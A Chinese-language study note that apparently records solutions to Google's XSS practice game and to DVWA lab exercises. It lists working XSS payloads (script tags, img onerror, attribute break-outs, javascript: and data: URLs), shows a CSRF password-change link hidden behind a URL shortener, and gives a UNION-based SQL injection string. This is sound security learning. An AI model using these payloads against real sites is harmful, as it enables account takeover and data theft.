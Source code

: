 ## XSS

> XSS（Cross-Site Scripting）攻击是通过在网页中注入恶意脚本代码，当其他用户浏览该网页时，恶意脚本会在用户的浏览器中执行，从而盗取用户信息、篡改网页内容等。

测试： https://xss-game.appspot.com/

这个题目是一个逐渐变难的过程，前面用过的办法，后面都会被过滤掉。



Leve1:  没做任何转义

```html
<script>alert()</script>
```

Leve2: <script></script>标签都被过滤不能生效, 使用其他标签就可以绕过了。

**解法1:**插入一个带有无效 URL 的*图像标记*和一个将执行 JavaScript 警报的onerror属性

```html
<img src='x' onerror='alert()'>
```





Leve3:

```html
问题1:  会截取路由的第一个参数   
chooseTab(unescape(self.location.hash.substr(1)) || "1");

问题2:  通过用单引号关闭src属性来欺骗它，然后像上一关一样添加带有警报函数的onerror属性，并使用双斜杠注释“.jpg”部分
html += "<img src='/static/level3/cloud" + num + ".jpg' />";


解法1:使用：' onerror='alert();//
<img src='/static/level3/cloud1' onerror='alert();//.jpg' />

解法2:'/><sCript>alert();</scrIpt> 因为没有处理大小写还能用script
<img src='/static/level3/cloud1'/><sCript>alert();</scrIpt>.jpg' />
```

Leve4:

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />

使用: ');alert();// 相当于让这个函数结束
<img src="/static/loading.gif" onload="startTimer('{{ ');alert();// }}');" />
```

Leve5: confim.html中的值是取自路径信息上的

```html
<a href="{{ next }}">Next >></a> 这个是取自路径信息

使用javascript:alert() 修改路径，然后点击go，在点next
...signup?next=javascript:alert() 
```

Leve6: 下面显示的内容是路径信息，就需要对路径做变化

```js
代码里面显示https不让请求资源，把https换成http    
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
使用： data:text/plain,alert('xss')
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### CSRF

> CSRF（Cross-Site Request Forgery）攻击是一种利用用户身份进行未授权操作的攻击方式。攻击者通过诱导用户访问一个恶意网站或点击恶意链接，利用用户在该网站上的会话（如Cookie）向目标网站发送请求，执行一些未授权的操作，如修改个人信息、转账等。

```shell
docker pull vulnerables/web-dvwa 
docker run -d --rm  --name dvwa  -it -p 80:80 vulnerables/web-dvwa  /bin/bash


localhost:80 
admin;password
```

![image-20240907233808839](./../images/image-20240907233808839.png)

这个是一个修改密码的例子



短链接

https://xiaomark.com/



我们修改密码的链接

http://localhost:80/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#

变成了这个东西

https://sourl.cn/MQkq9G

### SQL注入

> SQL注入攻击是通过在Web表单输入或URL查询字符串中插入恶意SQL代码，当这些输入被服务器端的数据库查询处理时，攻击者可以执行任意SQL命令，从而获取数据库中的敏感信息、修改数据等。

![image-20240907234503390](./../images/image-20240907234503390.png)

输入 1' UNION SELECT 1,database() from information_schema.schemata#

提示

```js
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: admin
Surname: admin
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: 1
Surname: dvwa
```